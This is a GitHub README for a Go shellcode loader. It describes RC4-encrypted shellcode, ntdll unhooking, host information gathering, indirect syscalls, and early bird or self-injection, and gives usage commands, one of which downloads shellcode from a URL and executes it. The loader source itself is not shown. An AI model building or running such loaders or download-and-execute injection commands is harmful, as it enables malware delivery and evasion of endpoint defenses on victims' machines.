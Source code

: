 # rc4 loader

a simple shellcode loader that uses rc4 encryption, indirect syscalls and some system pointer encoding for fun

## features

- unhooks ntdll
- gathers host information 
- rc4 encryption/decryption of shellcode
- demo mode with embedded messagebox shellcode
- download shellcode from remote url
- system pointer encoding/decoding (not used by loader but interesting to me so left it in)
- multiple injection attempts because either i suck or go sucks
- supports multiple injection methods:
  - early bird injection into selected process
  - self-injection using indirect syscalls

## usage

```bash
# show help
go run cmd/main.go -help

# run demo mode with default early bird injection
go run cmd/main.go -demo

# run demo mode with self-injection
go run cmd/main.go -demo -method indirect

# download and execute shellcode from url (early bird)
go run cmd/main.go -url <url>

# download and execute shellcode from url (self-injection)
go run cmd/main.go -url <url> -method indirect
```

## injection methods

- `earlybird` (default): Injects shellcode into a selected running process
- `indirect`: Self-injects the shellcode into the current process

## build

```bash
go build -o rc4loader.exe cmd/main.go
```

## requirements

- windows (uses native windows syscalls)
- go 1.19+

## output

- creates `info.txt` with host information
- displays encryption/decryption process
- shows injection attempts and results
- displays process selection menu (early bird mode only)

## author

me 
